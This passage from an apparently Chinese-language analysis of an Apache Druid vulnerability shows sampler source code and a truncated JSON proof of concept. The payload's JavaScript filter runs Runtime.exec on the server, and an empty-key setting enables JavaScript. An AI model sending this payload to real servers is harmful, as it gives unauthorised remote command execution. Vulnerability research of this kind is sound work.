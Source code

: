 ```java
            ingestionSpec.getIOConfig().getInputFormat(),
            "[spec.ioConfig.inputFormat] is required"
        );
      } else {
        this.inputFormat = null;
      }
    } else {
      final FirehoseFactory firehoseFactory = Preconditions.checkNotNull(
          ingestionSpec.getIOConfig().getFirehoseFactory(),
          "[spec.ioConfig.firehose] is required"
      );
      if (!(firehoseFactory instanceof FiniteFirehoseFactory)) {
        throw new IAE("firehose should be an instance of FiniteFirehoseFactory");
      }
      this.inputSource = new FirehoseFactoryToInputSourceAdaptor(
          (FiniteFirehoseFactory) firehoseFactory,
          ingestionSpec.getDataSchema().getParser()
      );
      this.inputFormat = null;
    }

    this.samplerConfig = samplerConfig;
    this.firehoseSampler = firehoseSampler;
    this.inputSourceSampler = inputSourceSampler;
  }
```
文件历史上做了3次修改，旧版firehose是必传,这里注意一点，firehose在0.15.0版本`type`还没有`inline`,用其他类型替代。

0.20.0 POC
```json
{
	"type": "index",
	"spec": {
		"ioConfig": {
			"type": "index",
			"inputSource": {
				"type": "inline",
				"data": "{\"timestamp\":\"2020-12-12T12:10:21.040Z\",\"xxx\":\"x\"}"
			},
			"inputFormat": {
				"type": "json",
				"keepNullColumns": true
			}
		},
		"dataSchema": {
			"dataSource": "sample",
			"timestampSpec": {
				"column": "timestamp",
				"format": "iso"
			},
			"dimensionsSpec": {},
			"transformSpec": {
				"transforms": [],
				"filter": {
					"type": "javascript",
					"dimension": "added",
					"function": "function(value) {java.lang.Runtime.getRuntime().exec('command')}",
					"": {
						"enabled": true
					}
				}
			}
		},
		"type": "index",
```